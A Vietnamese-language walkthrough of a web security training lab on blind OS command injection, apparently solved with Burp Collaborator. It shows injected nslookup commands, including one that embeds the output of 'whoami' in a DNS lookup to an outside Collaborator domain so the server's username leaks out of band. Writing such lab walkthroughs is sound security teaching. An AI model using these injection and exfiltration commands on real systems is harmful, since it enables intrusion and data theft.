



# Lab: Blind OS command injection with out-of-band data exfiltration

## Mô tả lab

Cần gửi username của user đang chạy web server trong DNS request.

## Các bước thực hiện

### Phân tích

Giống bài lab:

- **Lab Blind OS command injection with time delays**

### Khai thác

Ở lab trước, ta chỉ cần ép server thực hiện DNS lookup tới Collaborator domain:

```bash
nslookup kj7rl5g3awigixhghlripbj14sajy9my.oastify.com
```

Trong bài này, cần gửi kèm output của lệnh `whoami`.

Có thể đặt output của `whoami` làm subdomain:

```bash
nslookup `whoami`.kj7rl5g3awigixhghlripbj14sajy9my.oastify.com
```

Khi command được thực thi, shell sẽ chạy:

```bash
whoami
```

trước, sau đó thay output vào domain.

DNS lookup này sẽ xuất hiện trong Burp Collaborator, và username nằm ngay trong subdomain.



Quay lại Burp Collaborator và bấm `Poll now`:



Submit username




Lab solved.
